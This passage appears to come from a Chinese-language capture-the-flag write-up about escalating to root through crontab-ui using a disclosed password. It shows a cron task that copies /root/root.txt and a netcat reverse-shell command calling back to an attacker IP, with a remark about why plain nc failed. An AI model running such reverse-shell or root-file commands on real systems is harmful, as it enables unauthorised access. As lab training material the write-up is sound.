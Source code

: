 然后使用`root/P4ssw0rdS0pRi0T3c`登录crontab-ui，然后添加任务：

```bash
cat /root/root.txt > /tmp/flag
OR
busybox nc 10.10.16.18 4444 -e /bin/bash
```
*注意由于目标机nc不支持`-e`参数，所以*`nc 10.10.16.18 4444 -e /bin/bash`*反弹shell失败*

